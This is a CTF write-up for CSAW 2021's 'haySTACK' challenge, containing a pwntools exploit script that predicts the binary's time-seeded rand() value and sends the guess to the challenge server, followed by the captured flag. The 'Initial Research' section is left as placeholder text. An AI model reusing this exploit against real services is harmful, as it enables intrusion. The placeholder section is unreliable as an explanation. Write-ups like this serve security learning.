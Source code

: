 ```yaml
---
title: "haySTACK"
subtitle: "CSAW 2021 CTF"
author: GoProSlowYo
date: "2021-09-10"
subject: "haySTACK Writeup"
keywords: \[CSAW21, CSAW, CTF, InfoSec\]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "0c0d0e"
titlepage-rule-color: "8ac53e"
titlepage-rule-height: 0
logo: "./logo.png"
logo-width: 3in
toc: true
toc-own-page: true
---
```


# haySTACK

Writeup by: [GoProSlowYo](https://github.com/GoProSlowYo) solved by [jrozner](https://github.com/jrozner)

Team: [OnlyFeet](https://ctftime.org/team/144644)

Writeup URL: [GitHub](https://infosecstreams.github.io/csaw21/haySTACK/)

----

```text
Help! I've lost my favorite needle!

nc pwn.chal.csaw.io 5002
```

## Initial Research

Words about the binary and the exploit.

```bash
$ echo 'thingz'
thingz
```

## Exploit Script

```python
#!/usr/bin/env python
from pwn import *
from math import floor
from ctypes import CDLL

# Set up pwntools for the correct architecture
context.update(arch='amd64')
context.terminal = ['tmux', 'splitw', '-h']
exe = './haystack'

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote('pwn.chal.csaw.io', 5002)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

libc = CDLL("libc.so.6")
now = int(floor(time.time()))
libc.srand(now)

guess = libc.rand() % 0x100000

io.sendlineafter('Which haystack do you want to check?\n', '{}'.format(guess))

io.interactive()
```

## Victory

Save and run the exploit.

Submit the flag and claim the points:

**flag{4lw4YS_r3m3mB3R_2_ch3CK_UR_st4cks}**
